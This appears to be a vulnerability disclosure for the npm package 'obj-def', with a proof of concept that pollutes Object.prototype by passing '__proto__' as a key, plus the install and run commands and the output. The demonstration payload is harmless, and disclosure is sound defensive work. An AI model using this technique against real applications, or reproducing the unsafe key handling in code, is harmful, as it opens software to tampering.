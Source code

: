 # Description

`obj-def` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var objDef = require("obj-def")
var obj ={}
console.log("Before : " + {}.polluted);
objDef(obj, "__proto__", {}).polluted ='Yes! Its Polluted';
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i obj-def # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
